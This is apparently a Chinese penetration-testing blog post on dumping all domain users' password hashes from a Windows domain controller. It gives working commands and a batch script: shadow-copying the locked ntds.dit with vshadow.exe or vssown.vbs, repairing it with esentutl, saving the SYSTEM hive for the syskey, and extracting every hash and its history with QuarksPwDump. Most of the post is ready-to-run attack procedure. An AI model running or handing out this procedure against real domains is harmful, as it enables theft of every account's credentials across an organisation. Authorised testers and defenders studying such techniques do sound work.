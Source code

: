 ```yaml
---
layout: post
title: 导出域内所有用户hash
date: 2018-12-09 23:30:00
tags: 域渗透
categories: hack 
author: PythonPig
---
```

* content
{:toc}


### \#0x00 写在前面 
域渗透过程简单来说：搞定域内某机器—获取域管登录凭证—登录域控导出所有用户hash—完毕 
补充一下:尝试本地用户是否可以登录本机，如果可以登录，获取些本地用户hash备用（通过sam获取hash） 

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/hashes.jpg?raw=true) 图片来源于https://www.youtube.com/watch?v=KnOJKRl7E0A

域内用户HASH是存在域控ntds.dit中的， 它的存放位置是C:\Windows\ntds.dit。ntds.dit在系统运行过程中是被系统锁定的，无法操作，因此第一步是先把ntds.dit复制一份出来，然后导出其中的用户hash。 




### \#0x01 拷贝ntds.dit
拷贝ntds.dit的方法有多种，这里说两种经常使用的。经过测试第一种方法导出的hash数量比第一种多，原因目前尚不知。  
windows系统中自带的工具vssadmin也可以很方便的拷贝ntds.dit，经过测试拷贝的ntds.dit不能直接用QuarksPwDump.exe导出hash，但可以使用impacket中的secretsdump.py导出hash，这种情况一般用在目标系统安装有python环境的情况下。  
#### 一、使用微软官方提供的卷影拷贝工具vshadow.exe复制ntds.dit  

现在官方不提供vshadow.exe的直接下载了，可以安装官方JDK，在安装目录下可以找到vshadow.exe，这里要注意操作系统的版本，特别是xp和server 2003。  
利用官方JDK生成vshadow.exe的方法虽然不用担心后门，但是操作实在麻烦，这里提供一个runtime的工具：[ShadowCopy](https://www.runtime.org/shadow-copy.htm)，安装后在安装目录下可以找到各系统版本对应的vshadow.exe。  


为了方便使用vshadow.exe，这里提供一个脚本：ShadowCopy.bat，内容如下：  
```
setlocal
if NOT "%CALLBACK_SCRIPT%"=="" goto :IS_CALLBACK
set SOURCE_DRIVE_LETTER=%SystemDrive%
set SOURCE_RELATIVE_PATH=\windows\ntds\ntds.dit
set DESTINATION_PATH=%~dp0
@echo ...Determine the scripts to be executed/generated...
set CALLBACK_SCRIPT=%~dpnx0
set TEMP_GENERATED_SCRIPT=GeneratedVarsTempScript.cmd
@echo ...Creating the shadow copy...
"%~dp0vshadow.exe" -script=%TEMP_GENERATED_SCRIPT% -exec="%CALLBACK_SCRIPT%" %SOURCE_DRIVE_LETTER%
del /f %TEMP_GENERATED_SCRIPT%
@goto :EOF
:IS_CALLBACK
setlocal
@echo ...Obtaining the shadow copy device name...
call %TEMP_GENERATED_SCRIPT%
@echo ...Copying from the shadow copy to the destination path...
copy "%SHADOW_DEVICE_1%\%SOURCE_RELATIVE_PATH%" %DESTINATION_PATH%
```
vshadow.exe和ShadowCopy.bat上传到域控的同一目录，执行完ShadowCopy.bat后，ntds.dit便会被复制到当前目录。  

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vshadow_bat.jpeg?raw=true)

在导出hash之前，ntds.dit需要使用esentutl工具修复  
```
esentutl /p /o ntds.dit
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/esentutl.jpeg?raw=true)

导出ntds.dit后为了解密，还需要导出syskey   
```
reg save hklm\system c:\perflogs\system.hive
```

#### 二、使用vssown.vbs复制ntds.dit
vssown.vbs脚本在这里下载的：[vssown.vbs](https://github.com/PythonPig/pentest-tools/blob/master/password-cracking/vssown.vbs)  

查看vssown.vbs的使用方法：  
cscript vssown.vbs，主要的命令如下：  
```
cscript vssown.vbs /start
cscript vssown.vbs /list
cscript vssown.vbs /create c
cscript vssown.vbs /delete id
cscript vssown.vbs /stop
```
1、启动服务  
```
cscript vssown.vbs /start
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20start.jpeg?raw=true)

2、查看系统已有的快照并记录  
```
cscript vssown.vbs /list
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20list.jpeg?raw=true)

3、创建c盘快照  
```
cscript vssown.vbs /create c
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20create.jpeg?raw=true)

4、查看新增的快照  
```
cscript vssown.vbs /list
```
通过与第2步中的快照对比可知哪个快照是新增的，执行命令后最先显示出的快照一般是最新创建的。  
记录最新创建快照的ID和Device Object  

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20list2.jpeg?raw=true)

5、从快照中拷贝ntds.dit和syskey  
本次操作需要使用第4步中得到的快照ID和Device Object  
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy140\windows\ntds\ntds.dit C:\perflogs
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy140\windows\system32\config\SYSTEM C:\perflogs\system.hive
```
拷贝ntds.dit：
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20copy%20ntds.jpeg?raw=true)  

拷贝syskey：
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20copy%20syskey.jpeg?raw=true)

syskey也可以这样导出  
```
reg save hklm\system c:\perflogs\system.hive
```

6、删除快照并停止服务  
```
cscript vssown.vbs /delete {D61DE4C9-029E-42E7-9A93-64529039FD54}
cscript vssown.vbs /stop
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20delete%20stop.jpeg?raw=true)

### \#0x02 从ntds.dit导出所有用户hash
因为ntds.dit文件一般比较大，传回本地不太方便，所以直接在目标服务器上导出用户hash。    

```
QuarksPwDump.exe --dump-hash-domain --with-history --ntds-file c:\perflogs\ntds.dit --system-file c:\perflogs\system.hive -o c:\perflogs\res.txt
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/quarkspwdump.jpeg?raw=true)

一定要注意这里要使用绝对路径，选项参数之间只能有一个空格，用到的[QuarksPwDump.exe在这里](https://github.com/quarkslab/quarkspwdump)，下载源码后vs2010直接编译即可

### \#0x03 参考
* [完整导出域内用户hash小记 (vshadow + ShadowCopy + QuarksPwDump)](https://klionsec.github.io/2016/08/14/shadow-copy-hash/)
* [导出域内用户hash的几种方法](https://cloud.tencent.com/developer/article/1165439)  
* [完整导出域内用户hash小记 (vssown.vbs + libesedb + NtdsXtract)](https://klionsec.github.io/2016/08/13/vssown-vbs-libesedb-NtdsXtract/)  
* [域渗透——获得域控服务器的NTDS.dit文件](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-%E8%8E%B7%E5%BE%97%E5%9F%9F%E6%8E%A7%E6%9C%8D%E5%8A%A1%E5%99%A8%E7%9A%84NTDS.dit%E6%96%87%E4%BB%B6/)  



